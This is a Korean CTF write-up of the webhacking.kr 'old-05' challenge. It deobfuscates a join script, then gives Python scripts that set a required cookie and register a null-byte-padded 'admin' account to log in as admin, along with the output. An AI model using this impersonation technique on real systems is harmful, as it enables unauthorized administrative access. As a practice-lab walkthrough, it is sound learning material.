








# [목차]
**1. [Description](#Description)**

**2. [Write-Up](#Write-Up)**


***


# **Description**


# **Write-Up**

Join 버튼을 클릭하면 Access Denied alert가 뜬다.



script를 확인하면 Join버튼 클릭 시 무조건 Access Denited라고 나오고 Login버튼 클릭 시 mem/login.php로 이동된다.



guessing으로 mem/join.php로 시도해봐도 되지만 Directory Listing이 먹혀 join.php라는 것을 확인할 수 있다.



join.php로 접속하면 bye alert창이 뜬다.



join.php에 난독화된 script가 존재한다.



개발자 도구의 Pretty-print를 이용하여 보기 편하게 바꾸자.



bye alert의 조건과 access_denied의 조건도 있는 것을 확인할 수 있다.



변수를 Console창에 입력하면 완성된 문자열 값을 얻을 수 있다.



조건들은 cookie 값 중 oldzombie라는 Name이 있어야하고, URL에는 mode=1이라는 문자열이 들어가면 회원가입을 할 수 있게 된다.

```pythoni
import urllib.request

url     = 'https://webhacking.kr/challenge/web-05/mem/join.php?mode=1'
id      = b'123'
data    = b'id='+id+b'&pw=123'
request = urllib.request.Request(url, data=data)
request.add_header('Cookie','oldzombie=hello')
response= urllib.request.urlopen(request)
print(response.read())

[Output]
b"<html>\n<title>Challenge 5</title></head><body bgcolor=black><center>\n<font size=2 color=white><script>alert('id already existed');</script>"
```

널바이트를 이용하여 회원가입 후 로그인을 하면 점수를 획득할 수 있다.

```python
import urllib.request


url     = 'https://webhacking.kr/challenge/web-05/mem/join.php?mode=1'
id      = b'admin \x00'
data    = b'id='+id+b'&pw=123'
request = urllib.request.Request(url, data=data)
request.add_header('Cookie','oldzombie=hello')
response= urllib.request.urlopen(request)

print(response.read())

url     = 'https://webhacking.kr/challenge/web-05/mem/login.php'
id      = b'admin \x00'
data    = b'id='+id+b'&pw=123'
request = urllib.request.Request(url, data=data)
request.add_header('Cookie','oldzombie=hello;PHPSESSID=90tgnpg4ojd0sr911ktp9d6o10')
response= urllib.request.urlopen(request)

print(response.read())

[Output]
b'<html>\n<title>Challenge 5</title></head><body bgcolor=black><center>\n<font size=2 color=white>sign up as admin \\0 success'
b"<html>\n<head>\n<title>Challenge 5</title>\n</head>\n<body bgcolor=black>\n<center><font color=white>\nHello admin<br><script>alert('old-05 Pwned!');</script><hr>old-05 Pwned. You got 30point. Congratz!<hr></font>\n<font ... 생략 ...
```